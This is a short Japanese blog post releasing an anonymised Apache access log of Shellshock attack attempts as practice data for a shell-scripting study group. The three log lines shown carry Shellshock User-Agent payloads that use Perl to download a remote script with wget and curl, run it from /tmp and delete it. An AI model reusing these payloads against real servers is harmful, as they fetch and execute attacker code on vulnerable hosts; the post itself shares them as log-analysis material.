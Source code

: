 ```yaml
---
Keywords: ログ,apache,shellshock,USP友の会,勉強会,シェル芸,シェル芸勉強会
Copyright: (C) 2017 Ryuichi Ueda
---
```


# 第16回シェル芸勉強会で使うログ（邪悪なApache ShellShockログ）を公開します
これは<a href="http://blog.ueda.asia/?p=5620" title="シェル芸が実写化されました">エイプリルフール</a>でもなんでもなく、必要なので公開します。当日公開のほうが盛り上がるかなーと思ったのですが、出し惜しみせずに練習してもらった方がよいかと判断しました。<a href="https://usptomo.doorkeeper.jp/events/22117">第16回シェル芸勉強会のページはこちらです。</a>

今のところ、ログは<a href="http://ita.ee.lbl.gov/html/contrib/NASA-HTTP.html">NASAが公開しているもの</a>と、次のShellshock関連のログ（採取元: 私のブログ）を用いようと考えています。ナマのログを出すとあんまりよくないと考え、IPアドレスは頭をすべて192.168に変換しています。

<!--more-->

<a href="access.log_.shellshock.gz">http://blog.ueda.asia/wp-content/uploads/2015/04/access.log_.shellshock.gz</a>

これが中身です。どんな問題が出るか予想しながらいじってみていただければと。

```bash
uedambp:tmp ueda$ gzcat access.log.shellshock.gz | tail -n 3
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] "GET /phppath/cgi_wrapper HTTP/1.1" 302 227 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\");'"
192.168.193.42 - - [12/Dec/2014:19:23:59 +0900] "GET /phppath/php HTTP/1.1" 302 219 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget http://192.168.144.163/guide/lx.pl -O /tmp/lx.pl;curl -O /tmp/lx.pl http://192.168.144.163/guide/lx.pl;perl /tmp/lx.pl;rm -rf /tmp/lx.pl*\\");'"
192.168.225.64 - - [15/Dec/2014:03:12:20 +0900] "GET /phppath/cgi_wrapper HTTP/1.1" 302 227 "-" "() { :;};/usr/bin/perl -e 'print \\"Content-Type: text/plain\\\\r\\\\n\\\\r\\\\nXSUCCESS!\\";system(\\"wget -q http://192.168.63.71/android.txt -O /tmp/android.txt;perl /tmp/android.txt;rm -rf /tmp/android*\\");'"
```


ヤバイ・・・


寝る。
